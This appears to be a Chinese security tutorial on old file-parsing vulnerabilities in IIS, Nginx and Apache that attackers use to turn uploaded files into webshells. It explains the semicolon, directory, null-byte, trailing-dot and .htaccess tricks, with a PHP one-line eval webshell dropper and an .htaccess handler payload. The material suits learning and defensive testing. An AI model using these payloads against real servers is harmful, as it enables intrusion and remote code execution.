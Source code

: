 ##### 一、IIS 5.x/6.0解析漏洞
IIS 6.0解析利用方法有两种
1.目录解析
/xx.asp/xx.jpg

2.文件解析
wooyun.asp;.jpg

第一种，在网站下建立文件夹的名字为 .asp、.asa 的文件夹，其目录内的任何扩展名的文件都被IIS当作asp文件来解析并执行。

例如创建目录 wooyun.asp，那么
/wooyun.asp/1.jpg

将被当作asp文件来执行。假设黑阔可以控制上传文件夹路径,就可以不管你上传后你的图片改不改名都能拿shell了。
第二种，在IIS6.0下，分号后面的不被解析，也就是说
wooyun.asp;.jpg

会被服务器看成是wooyun.asp还有IIS6.0 默认的可执行文件除了asp还包含这三种
/wooyun.asa
/wooyun.cer
/wooyun.cdx

二、IIS 7.0/IIS 7.5/ Nginx <8.03畸形解析漏洞
Nginx解析漏洞这个伟大的漏洞是我国安全组织80sec发现的…
在默认Fast-CGI开启状况下,黑阔上传一个名字为wooyun.jpg，内容为
<?PHP fputs(fopen('shell.php','w'),'<?php eval($_POST[cmd])?>');?>

的文件，然后访问wooyun.jpg/.php,在这个目录下就会生成一句话木马 shell.php

三、Nginx <8.03 空字节代码执行漏洞
影响版:0.5.,0.6., 0.7 <= 0.7.65, 0.8 <= 0.8.37
Nginx在图片中嵌入PHP代码然后通过访问
xxx.jpg%00.php

来执行其中的代码

四、Apache解析漏洞
Apache 是从右到左开始判断解析,如果为不可识别解析,就再往左判断.
比如 wooyun.php.owf.rar “.owf”和”.rar” 这两种后缀是apache不可识别解析,apache就会把wooyun.php.owf.rar解析成php.
如何判断是不是合法的后缀就是这个漏洞的利用关键,测试时可以尝试上传一个wooyun.php.rara.jpg.png…（把你知道的常见后缀都写上…）去测试是否是合法后缀

五、其他
在windows环境下，xx.jpg[空格] 或xx.jpg. 这两类文件都是不允许存在的，若这样命名，windows会默认除去空格或点,黑客可以通过抓包，在文件名后加一个空格或者点绕过黑名单.若上传成功，空格和点都会被windows自动消除,这样也可以getshell。
如果在Apache中.htaccess可被执行.且可被上传.那可以尝试在.htaccess中写入:
<FilesMatch "wooyun.jpg"> SetHandler application/x-httpd-php </FilesMatch>

然后再上传shell.jpg的木马, 这样shell.jpg就可解析为php文件
